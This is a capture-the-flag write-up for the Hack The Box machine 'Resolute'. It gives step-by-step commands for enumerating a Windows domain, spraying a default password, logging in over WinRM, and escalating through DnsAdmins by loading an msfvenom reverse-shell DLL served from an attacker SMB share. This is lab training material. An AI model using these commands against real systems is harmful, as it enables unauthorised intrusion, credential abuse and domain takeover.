

# [Resolute](https://app.hackthebox.com/machines/Resolute)

```bash
nmap -p-  --min-rate 10000 10.10.10.169 -Pn
```


After detection of open ports, let's do greater nmap scan here.

```bash
nmap -A -sC -sV -p88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001 10.10.10.169 -Pn
```


From nmap scan result, I need to add `megabank.local` into `/etc/hosts` file for resolving ip addresses.

I try to make enumeration for `SMB` via `smbclient` command but it doesn't work for null credentials.
```bash
smbclient -N -L \\10.10.10.169
```


But I can't find anything as interested, let's look at `RPC` to find sensitive and interesting information.

```bash
rpcclient -U "" -N 10.10.10.169
```


Let's run `querydispinfo` command to get information about all users on this domain.


For `marco` user, I can see that `Description` contains default password called `Welcome123!`, but this credential doesn't work for `marco` user.

```bash
crackmapexec smb 10.10.10.169 -u marco -p 'Welcome123!'
```


Let's get all users from `RPC` by running `enumdomusers` and brute-force this password for them by using `crackmapexec`

```bash
crackmapexec smb 10.10.10.169 -u users.txt -p 'Welcome123!' --continue-on-success
```


From this image, we see that `melanie` user forgot to change his password.

melanie: Welcome123!


Let's connect into machine via this credentials by using `evil-winrm` command. But I need to specify port number to `5985` as because `WinRM` protocol is running on this port for our target.

```bash
evil-winrm -i 10.10.10.169 -P 5985 -u melanie -p 'Welcome123!'
```

user.txt


I find `hidden` file which may contain sensitive info on machine by running `gci -force` on `C:\PSTranscripts\20191203` directory.


I found `ryan` user's password as `hard-coded` on this `.txt` file.


ryan: Serv3r4Admin4cc123! 


Let's check this credentials via `crackmapexec`.
```bash
crackmapexec winrm 10.10.10.169 -u ryan -p 'Serv3r4Admin4cc123!' 
```




Let's login into machine via this credentials by using `evil-winrm`.


While I running `whoami /groups` to recon this user that belongs to which groups.

From output, you can see this user belongs `DnsAdmins` group which is so sensitive thing.

I use [this](https://app.hackthebox.com/machines/Resolute) for abusing membership of `DnsAdmins` group.


First, I need to create malicious `.dll` file which gives me `reverse shell`.
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.18 LPORT=1337 -f dll -o dr4ks.dll
```


Then, we need to open `SMB share` to serve this file.
```bash
python3 /usr/share/doc/python3-impacket/examples/smbserver.py share . -smb2support
```


Now, I need to config `DNS` service via `dnscmd` command.
```bash
dnscmd.exe /config /serverlevelplugindll \\10.10.14.18\share\dr4ks.dll
sc.exe \\resolute stop dns
sc.exe \\resolute start dns
```


Hola! I got reverse shell from port `1337`.


root.txt

